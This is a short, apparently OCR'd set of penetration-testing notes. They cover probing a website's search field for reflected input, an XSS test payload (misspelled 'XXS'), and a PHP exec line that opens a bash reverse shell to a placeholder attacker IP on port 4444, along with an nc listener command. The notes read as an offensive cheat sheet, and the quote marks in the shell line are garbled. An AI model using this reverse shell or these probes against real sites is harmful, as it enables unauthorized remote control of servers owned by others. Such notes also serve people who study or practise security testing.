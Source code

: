 help section of website  
search field  
“xxx” if returns "'xxx' not found, may be vulnerable to xxs  
search field  
```html
<script>alert('hacked')</script> to test XXS vuln  
```
  
PHP reverse shell  
exec("/bin/bash -c 'bash -i >& /dev/tcp/’attacking ip'/4444 0>&1'");  
Run nc -lvp 4444